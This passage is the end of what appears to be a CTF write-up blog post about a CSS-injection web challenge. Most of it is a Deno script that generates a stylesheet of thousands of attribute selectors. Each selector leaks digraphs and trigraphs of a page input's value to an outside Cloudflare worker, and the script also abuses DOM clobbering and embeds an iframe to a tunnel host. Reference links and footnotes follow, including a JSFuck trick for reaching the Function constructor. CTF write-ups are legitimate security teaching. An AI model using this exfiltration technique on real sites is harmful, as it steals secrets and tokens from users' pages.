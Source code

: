 ```
vQQii11ssggOOiiddhhhhKKbbGGwweeLLOOQQuuvvIIvvDDVVyyggqqUUtt44BBNN88ZZ66hhSSMMccUUwwOOooYYHHhhXXTThhggIIrrSSZZffPPiibbeett00GGHH11bbRRyy339988EE33ooiiBBIIvv77N
```

But I didn't feel like fixing it because it was easy enough just to deduplicate those pairs.

What about for actually collecting those trigraphs? Since I was only using trigraphs for reconstruction, I had to make sure no trigraphs were left behind. How?

Earlier, I mentioned that CSS could do case-insensitive matching too, like `[value*="string" i]`. I could almost halve the number of trigraphs by case-insensitively matching only digits and lowercase letters, no uppercase.


```js
{const alpha = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
const alphaL = '0123456789abcdefghijklmnopqrstuvwxyz'
let html = '<form name=querySelectorAll><style>input{'
 let background = 'background:'/*
 for (const a of alpha)
 for (const b of alpha){
   background += `var(--t${a+b}),`
   html += `--t${a+b}:none;`
 }*/
const N = 10000
for (let i = 0; i < N; i++) {
   background += `var(--${i},none),`
//   html += `--${i}:none;`
 }
 html += background.slice(0,-1) +'}'
 const check = s => /\d/.test(s) ? `'${s}'` : s
let i = 0
  let combos = new Set()
for (const a of alpha) {
  for (const b of alpha){
  html+=`[value*=${check(a+b)}]{--${(i++)%N}:url(//lc.ussa-say.workers.dev/${a+b})}`
     for (const c of alpha){
      combos.add(`${a}${b}${c}`.toLowerCase())
    }
    }
}
combos=[...combos]
 for (let i = combos.length; i--;) {
   const index  = Math.floor(Math.random() * (i + 1))
;[combos[i ], combos[index]]=[combos[index ], combos[i]]
 }
 for (const combo of combos) {
html+=`[value*=${check(combo)} i]{--${(i++)%N}:url(//lc.ussa-say.workers.dev/${combo})}`
 }
html += '</style><iframe src="//subsection-diana-commissioners-excited.trycloudflare.com/load"></iframe>'
 console.log(6e6/ html.length, 'kept')
await Deno.writeTextFile('heyy.html', html.slice(0, 6e6))}
```


[acmucsd]: https://acmucsd.com/communities#Cyber
[acmucla]: https://www.acmcyber.com/
[lactf]: https://lac.tf/
[jsfuck]: https://jsfuck.com/
[strings]: https://en.wikipedia.org/wiki/Strings_(Unix)
[ghidra]: https://ghidra-sre.org/
[dogbolt-aplet321]: https://dogbolt.org/?id=4c61df44-da40-4158-80b4-f4155fbf227e
[strstr]: https://cplusplus.com/reference/cstring/strstr/
[bendera]: https://en.wiktionary.org/wiki/bendera#Indonesian
[wiki]: https://id.wikipedia.org/wiki/Bendera_Indonesia
[dcode]: https://www.dcode.fr/monoalphabetic-substitution
[indofreq]: https://www.sttmedia.com/characterfrequency-indonesian
[^1]: Something I never got to use at UCSD because UCSD didn't have a two-year housing guarantee.
[^2]: The deepest darkest secret doesn't work because the server just sets it to `todo` for all non-Samy users.
[fetch]: https://developer.mozilla.org/en-US/docs/Web/API/fetch
[italics]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/italics
[^10]: You might be wondering how JSFuck can create a function in the first place. You can get `a` from `false` and `t` from `true`, and arrays have a method named `at`, which you can access with `[]['a' + 't']`. It's also possible to get the other letters in `constructor`, so you can use `[]['at']['constructor']` to get a reference to the `Function` constructor, which you can use to convert strings to functions. For example, `Function('return 3')` creates a function that returns 3.
[prior]: http://127.0.0.1:4000/longer-tweets/ctf/#ctf-node-calculator-escape-vm-codegeneration-false
[vuln]: https://security.snyk.io/vuln/SNYK-JS-SAFEEVAL-3373064
[gen]: ../files/lactf/lactf-jsfudge.js
[gener]: ../files/lactf/jsfudge-codegen.js
[e]: https://github.com/uclaacm/lactf-archive/blob/main/2024/rev/glottem/glottem#L10
[polyglot]: https://en.wikipedia.org/wiki/Polyglot_(computing)
[^11]: This was originally a Node-specific feature that has recently been [standardized into JavaScript][shebang], adding a fourth comment syntax to JavaScript's existing family of `//`, `/* */`, and `<!-- -->`.
[shebang]: https://github.com/tc39/proposal-hashbang
[server]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/server.js
[note]: https://github.com/uclaacm/lactf-archive/blob/main/2024/web/quickstyle/note.js
[nesting]: https://developer.mozilla.org/en-US/docs/Web/CSS/CSS_nesting
[^12]: I tried looking through my browsing history, but there's no evidence of me ever learning about this from anything online. Based on my browsing history, it just looks like I was trying things like `<span id="document">` then suddenly had a stroke of genius and tried doing `<form name=querySelectorAll>`. Then, I got confused where I got this idea from and tried to look up "form name getelementbyid injection" to find the original post.
[^13]: Again, as noted at the beginning of the article, everyone at UCSD is part of our team. I don't think this counts as cheating. At worst it's just some OSINT.
[paradox]: https://www.dcode.fr/birthday-problem
[^14]: It's possible for a trigraph to be missing a pair, like having `abc` but not `ab`, due to CSS variable collisions.
[worker]: https://workers.cloudflare.com/
[tunnel]: https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/
[workers]: https://blog-cloudflare-com.webpkgcache.com/doc/-/s/blog.cloudflare.com/announcing-workers-dev/
[^15]: Like our dining halls' mobile ordering app.